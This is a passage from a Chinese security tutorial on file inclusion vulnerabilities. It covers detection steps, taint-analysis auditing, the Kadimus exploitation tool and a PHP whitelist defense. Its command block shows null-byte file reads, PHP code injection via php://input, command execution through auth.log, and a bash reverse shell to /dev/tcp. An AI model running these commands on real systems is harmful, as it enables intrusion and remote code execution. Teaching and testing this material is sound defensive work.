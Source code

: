 * **远程文件包含漏洞检测**

（1）向目标参数指定远程 URL 发起请求，确定远程服务器是否收到相应请求，此步骤可利用前面介绍过的 Burp Collaborator 进行测试。若发起请求说明有可能存在远程请求文件，同时也可能出现 SSRF 漏洞。

（2）如果第 1 步失败，尝试提交一个不存在的 IP 地址，并确认服务器尝试连接此 IP 时是否会出现超时。

（3）若第 1 步确认访问成功或者第 2 步确认请求超时，那么按前面介绍的利用方法，尝试利用远程文件包含漏洞以作最终确认。

* **本地文件包含漏洞检测**

（1）向目标参数提交一个已知的可执行资源的文件路径，比如 PHP 文件路径，看应用程序是否有任何变化。

（2）向目标参数提交一个已知的静态资源的文件路径，比如图片，看它的内容是否会再现在响应数据中。

（3）若第 1 步或第 2 步出现引用指定资源的情况，则按前面介绍的利用技巧尝试对疑似本地文件包含漏洞进行测试验证。

上述检测思路既适用于手工测试，也适用于日常的自动化扫描。

#### 2.静态检测思路

从源码入手，采用前面介绍过的污点分析思路进行代码审计。梳理下文件包含漏洞产生的相关 source 与 sink，然后去追踪数据流从 source 传播到 sink 过程中是否有进行过滤，若没有则可能存在文件包含漏洞。

![图片9.png](https://s0.lgstatic.com/i/image/M00/94/51/CgqCHmAX4MqASFfNAAFRLvvVLVE597.png)

#### 3.自动化检测与利用工具：Kadimus

提到自动化扫描，这里推荐一款自动化检测与利用文件包含漏洞的工具，它叫 [Kadimus](https://github.com/P0cL4bs/Kadimus/)，支持较多的利用方式，有部分是在前面未介绍到的，比如利用 /var/log/auth.log 实现远程代码执行的方法，利用它可以更加便捷地针对文件包含漏洞进行测试利用。

介绍几个常用命令：

```shell
# 检测参数是否存在文件包含漏洞
./kadimus -u localhost/?pg=contact -A my_user_agent
# 读取文件内容
./kadimus -u localhost/?pg=contact -S -f "index.php%00" -O local_output.php --parameter pg
# 执行PHP代码
./kadimus -u localhost/?pg=php://input%00 -C '<?php echo "pwned"; ?>' -T input
# 执行系统命令
./kadimus -t localhost/?pg=/var/log/auth.log -T auth -c 'ls -lah' --ssh-target localhost
# 反连shell
./kadimus -u localhost/?pg=contact.php -T data --parameter pg -lp 12345 -c '/bin/bash -c "bash -i >& /dev/tcp/172.17.0.1/1234 0>&1"' --retry-times 0
```

### 漏洞防御

#### 1.白名单限制

如果已经知道要包含的文件范围，那么直接使用白名单限制，比如：

```php
if( $file != "include.php" && $file != "file1.php" && $file != "file2.php" && $file != "file3.php" ) {
    // This isn't the page we want!
    echo "ERROR: File not found!";
    exit;
}
```

